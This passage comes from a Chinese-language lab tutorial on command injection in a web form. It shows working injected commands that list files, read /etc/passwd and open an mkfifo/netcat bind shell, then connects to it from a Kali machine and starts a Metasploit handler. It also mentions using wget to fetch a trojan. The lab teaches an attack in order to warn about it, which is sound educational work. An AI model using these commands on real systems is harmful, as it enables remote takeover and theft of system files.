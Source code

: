 ```
| ls -lah
```

![show-shuxian](https://doc.shiyanlou.com/document-uid113508labid2430timestamp1482889892523.png/wm)

既然能够获取信息，必然会选择查看有用的信息：

```
| cat /etc/passwd
```

![show-passwd](https://doc.shiyanlou.com/document-uid113508labid2430timestamp1482889900485.png/wm)

如此的话，似乎什么命令都可以执行，我们甚至可以使用 `wget` 命令下载我们准备好的木马，使他在后台执行，这样我们就可以通过这个某门远程连接或者是 webshell 来远程操控我们的目标主机了。

可见命令注入是一件非常危险的事情。一定不能轻易的提供这样的服务，若是一定要提供一定要做好响应的防范与过滤措施。

### 5.4 命令注入进阶

命令的注入不仅仅可以这样简单的执行命令，我们还可以联合 metasploit 工具。

还记得我们在远程包含试验中使用的反弹 shell 中所使用的 netcat 工具吗？也就是 nc 命令。

我们利用 mkfifo 命令与 nc 命令创建一个可以交互的平台：

```
| mkfifo /tmp/pipe;sh /tmp/pipe | nc -lp 1111 > /tmp/pipe
```

该命令就是通过 mkfifo 命令创建一个进程之间能够相互通信的管道，使得 nc 所监听的 1111 端口号能够与可交互的 shell 相互连接通信。如此我们就可以像 ssh 登陆一般使用目标主机了。

submit 提交之后，我们会发现页面一直处于加载状态，因为 nc 一直在监听 1111 端口，并没有切换至后台工作：

![show-load](https://doc.shiyanlou.com/document-uid113508labid2430timestamp1482889911753.png/wm)

经过短时间的等待，kali 虚拟机启动之后，此时我们使用 ssh 登陆上 kali 虚拟机的终端，我们可以通过 netcat 命令与目标主机建立连接，使用这样一个命令：

```
nc 192.168.122.102 1111
```

该命令就是用于与 192.168.122.102 目标主机监听的 1111 端口建立连接。

由此我们便可如 ssh 登陆一般控制目标主机了：

![show-nc-connection](https://doc.shiyanlou.com/document-uid113508labid2430timestamp1482889921957.png/wm)

通过 `exit` 或者 `ctrl+c` 我们便可断开连接。

同样我们还可以通过 `msfconsole` 来启动 MSF 工具的终端，用 msf 来建立连接。

我们使用 msfconsole 的命令进入命令行，接着我们将使用 `multi/handler` 模块：

```
use multi/handler
```

![use-handler](https://doc.shiyanlou.com/document-uid113508labid2430timestamp1482889931489.png/wm)
